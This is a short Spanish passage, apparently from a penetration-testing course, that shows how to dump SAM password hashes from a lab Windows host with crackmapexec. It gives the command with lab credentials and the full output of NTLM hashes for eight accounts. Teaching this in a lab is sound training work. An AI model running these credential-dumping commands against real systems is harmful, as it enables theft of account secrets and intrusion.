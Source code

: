 ### Dumping SAM Remotely

También podemos descargar hashes de la base de datos SAM de forma remota.

```r
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam

SMB         10.129.42.198   445    WS01      [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:WS01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01      [+] FRONTDESK01\bob:HTB_@cademy_stdnt! (Pwn3d!)
SMB         10.129.42.198   445    WS01      [+] Dumping SAM hashes
SMB         10.129.42.198   445    WS01      Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:72639bbb94990305b5a015220f8de34e:::
SMB         10.129.42.198   445    WS01     bob:1001:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
SMB         10.129.42.198   445    WS01     sam:1002:aad3b435b51404eeaad3b435b51404ee:a3ecf31e65208382e23b3420a34208fc:::
SMB         10.129.42.198   445    WS01     rocky:1003:aad3b435b51404eeaad3b435b51404ee:c02478537b9727d391bc80011c2e2321:::
SMB         10.129.42.198   445    WS01     worker:1004:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
SMB         10.129.42.198   445    WS01     [+] Added 8 SAM hashes to the database
```

Practica cada técnica enseñada en esta sección mientras trabajas para completar las preguntas del desafío.